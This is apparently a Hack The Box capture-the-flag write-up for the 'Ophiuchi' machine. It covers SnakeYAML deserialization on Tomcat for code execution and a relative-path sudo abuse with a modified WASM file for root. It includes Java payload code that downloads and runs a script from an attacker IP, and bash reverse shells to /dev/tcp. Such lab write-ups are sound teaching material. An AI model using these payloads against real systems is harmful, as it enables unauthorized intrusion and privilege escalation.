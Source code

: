 # Hackthebox - Ophiuchi

First I run Nmap to scan for open ports.
```bash
Nmap scan report for 10.129.168.125
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
|   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
|_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.38
|_http-title: Parse YAML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 8080 which is HTTP is open, so I open the webpage and got this.
![](Ophiuchi/webpage.png)

Next I started a gobuster to find directories.
![](Ophiuchi/gobuster.png)

I try clicking around the website and see that it is a YAML parser. I try putting in some stuff but always got a message saying the feature is disabled.                              
![](disabled.png)

I started searching about "YAML deserilization exploit" and got an article (https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858). I just try running the exploit blindly just to see if it works.
![](payload.png)

I setup a listener and got a hit back from the box.
![](curledhit.png)

So now I know the exploit works, but I still doesn't have command execution. The article aboves dives in more to how we can do a remote command execution through this exploit. We basically provide a java class file which contains our command. I want to test the exploit first so I do a simple curl command to my machine. Below is the snippet of the code.
```java
public AwesomeScriptEngineFactory() {
    try {
        Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
        Runtime.getRuntime().exec("curl 10.10.14.66:8888");
    } catch (IOException e) {
        e.printStackTrace();
    }
}
```

I convert the java file to a class file.
![](convertjavaclass.png)

Setup a python server to host my class file.
![](python3server.png)

Send the YAML payload to the web server.                                                                                      
![](payload2.png)

I got a curl back from the box to my machine.
![](curled2.png)

So its confirmed that the command execution works. Now I created a reverse shell bash script and download it to the box and execute it with bash. Here is the snippet of the code.
```java
public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
            Runtime.getRuntime().exec("curl 10.10.14.66:8000/rev.sh -o /tmp/rev.sh");
			Runtime.getRuntime().exec("bash /tmp/rev.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

I created the **rev.sh** bash script.
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.66/7777 0>&1
```

Setup a listener, send the payload and gota shell as the tomcat user.
![](tomcatshell.png)

Next I try looking through the conf directory in tomcat's home directory and got a credentials for the user admin.
![](adminpass.png)

I try SSH to the box as admin with that password and got in.
![](Ophiuchi/userflag.png)

I try running **sudo -l** and the user admin can execute a file written in go.
![](Ophiuchi/sudo-l.png)

I look at the contents of the file and try to analyse what it does.
```bash
package main

import (
	"fmt"
	wasm "github.com/wasmerio/wasmer-go/wasmer"
	"os/exec"
	"log"
)

func main() {
	bytes, _ := wasm.ReadBytes("main.wasm")

	instance, _ := wasm.NewInstance(bytes)
	defer instance.Close()
	init := instance.Exports["info"]
	result,_ := init()
	f := result.String()
	if (f != "1") {
		fmt.Println("Not ready to deploy")
	} else {
		fmt.Println("Ready to deploy")
		out, err := exec.Command("/bin/sh", "deploy.sh").Output()
		if err != nil {
			log.Fatal(err)
		}
		fmt.Println(string(out))
	}
}
```

Its calling **deploy.sh** and **main.wasm** but isn't using it's absolutr path. Which means I can make the script call my files instead.

I go to **/dev/shm** and created **deploy.sh** file.
```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.66/8888 0>&1'
```
The file will only execute the **deploy.sh** file if variavle f is 1. The variable f is taken from **main.wasm**, which is a web assembly file. I search around for how to work with a wasm file and found a tool (https://github.com/webassembly/wabt). The wasm file can be converted to web assembly text format which is more human readable.

So I send the **main.wasm** file to my box.
![](ncsendwasm.png)

Convert it into wat format.
![](convertwat.png)

Now I can see the contents.
```bash
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 0)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

There is a function called info which is pulled by the **index.go** file. So I can just make the info function returns 1. So I edit the file with nano.
```bash
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 1)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

I converted the wat file back to wasm format.
![](wattowasm.png)

curl the new wasm file
![](ls-la.png)

Execute the full sudo command.
![](runsudo.png)

And I got a shell as root.
![](Ophiuchi/rooted.png)
